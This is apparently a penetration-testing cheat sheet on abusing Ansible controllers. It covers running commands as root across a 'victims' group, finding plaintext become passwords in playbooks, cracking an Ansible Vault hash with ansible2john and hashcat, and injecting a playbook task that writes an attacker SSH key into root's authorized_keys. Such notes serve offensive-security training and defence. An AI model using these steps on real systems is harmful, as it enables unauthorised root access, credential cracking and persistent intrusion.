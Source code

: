 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Ansible
---
```


# Ansible
#### Commands
_Ansible_ is an infrastructure configuration engine that enables IT personnel to dynamically and automatically configure IT infrastructure and computing resources through Python scripts.
Config in <code>/etc/ansible/hosts</code>.
The _ansibleadm_ user on the controller issues commands.
From the command machine:
&nbsp;
```shell
ansible victims -a "whoami"
```
&nbsp;
This will run `whoami` on all members of the Ansible group. To run it as root `ansible victims -a "whoami" --become` or specify the user `ansible victims -a "whoami" --become user2`.

#### Playbooks
Sets of tasks written in YAML to be scripted so that they can be run in a routine.
Check this files in _/opt/playbooks_ to see if there's any info leakage.
&nbsp;
I.E.
```YAML
- name: Write a file as offsec
  hosts: all
  gather_facts: true
  become: yes
  become_user: offsec <-------
  vars:
    ansible_become_pass: lab <---------
  tasks:
    - copy:
          content: "This is my offsec content"
          dest: "/home/offsec/written_by_ansible.txt"
          mode: 0644
          owner: offsec
          group: offsec
```
&nbsp;
Ansible has a new features called _Ansible Vault_ to securely store credentials for playbooks:
&nbsp;
```yaml
ansible_become_pass: !vault |
          $ANSIBLE_VAULT;1.1;AES256
          39363631613935326235383232616639613231303638653761666165336131313965663033313232
          3736626166356263323964366533656633313230323964300a323838373031393362316534343863
          36623435623638373636626237333163336263623737383532663763613534313134643730643532
          3132313130313534300a383762366333303666363165383962356335383662643765313832663238
          3036
```
&nbsp;
Copy the hash starting with "$ANSIBLE_VAULT......." and use _ansible2john_ to convert it in a crackable way to then:
&nbsp;
```shell
hashcat testhash.txt --force --hash-type=16900 /usr/share/wordlists/rockyou.txt
```
&nbsp;
to then decrypt the vault like:
&nbsp;
```shell
cat pw.txt | ansible-vault decrypt
```
&nbsp;
Also, if the playbook files used on the controller have world-writable permissions or if we can find a way to write to them (perhaps through an exploit), we can inject tasks that will then be run the next time the playbook is run.
I.E. to add to the yaml playbook:
&nbsp;
```yaml
- name: Create a directory if it does not exist
      file:
        path: /root/.ssh
        state: directory
        mode: '0700'
        owner: root
        group: root

    - name: Create authorized keys if it does not exist
      file:
        path: /root/.ssh/authorized_keys
        state: touch
        mode: '0600'
        owner: root
        group: root

    - name: Update keys
      lineinfile:
        path: /root/.ssh/authorized_keys
        line: "ssh-rsa AAAAB3NzaC1...Z86SOm..."
        insertbefore: EOF
```
&nbsp;
Also, some modules from Ansible might leak data in /var/log/syslog (I.E. shell module)
